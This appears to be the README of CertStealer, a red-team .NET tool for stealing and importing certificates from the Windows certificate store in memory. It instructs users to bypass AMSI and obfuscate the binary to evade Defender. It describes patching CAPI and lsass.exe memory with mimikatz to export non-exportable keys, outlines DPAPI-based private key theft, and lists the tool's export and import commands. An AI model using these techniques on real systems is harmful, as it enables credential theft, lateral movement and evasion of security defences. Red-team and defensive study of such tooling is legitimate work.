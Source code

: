 # CertStealer

A (v3.5 compatible) .NET tool for stealing and importing certificates in the Windows certificate store without touching disk. Useful for red team operations where you need to poach a certificate for pivoting purposes and want to do so with an in-memory post-ex payload.

This tool is flagged as malware by Defender. DO NOT run it from disk on-target. DO NOT run it in memory on target WITHOUT AMSI BYPASSED. And DO obfuscate it with a tool like ConfuserEx, just in case.

If you export a certificate with a private key as PFX then the password will be blank by default. *Blank*, not non-existent. Optionally, you may specify a password with the `--password` argument.

If keys are marked as not exportable then you will have to patch CAPI to allow export of non-exportable keys in the current process. This can be done with mimikatz via the `crypto::capi` command. If you are trying to export device certificates that are not exportable, mimikatz can instead patch the memory of the running lsass.exe process to bypass protections using the `crypto::cng` command.

Alternatively, you may extract the private keys manually using DPAPI operations. Use the user's DPAPI masterkey, (or a password, domain DPAPI private key, or system backup key to first decrypt the user's masterkey) to extract and decrypt the user's certificates from the registry. This can be done with SharpDPAPI or mimikatz. For more details, checkout the THEFT2 and THEFT3 sections of SpecterOps's whitepaper: [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2). (Really you should just read that whole paper.)

```
Examples:

Display this help message: CertStealer.exe --help
Listing all certs: CertStealer.exe --list
Listing all certs within the My store in CurrentUser: CertStealer.exe --name user --store My --list
Listing all certs within the CA store in LocalMachine: CertStealer.exe --name local --store CA --list
Exporting a cert by its thumbprint: CertStealer.exe --export AF724CB571166C24C0799E65BE4772B10814BDD2
Exporting a cert by its thumbprint as PFX: CertStealer.exe --export pfx AF724CB571166C24C0799E65BE4772B10814BDD2
Exporting a cert by its thumbprint as PFX, specifying a password: CertStealer.exe --password pass123 --export pfx AF724CB571166C24C0799E65BE4772B10814BDD2
Importing a cert into the My store in CurrentUser: CertStealer.exe --import My user Dw...snipped...gY=
Importing a cert into the CA store in LocalMachine: CertStealer.exe --import CA local Dw...snipped...gY=
Use verbose output (works for list and import): CertStealer.exe --list --verbose
```
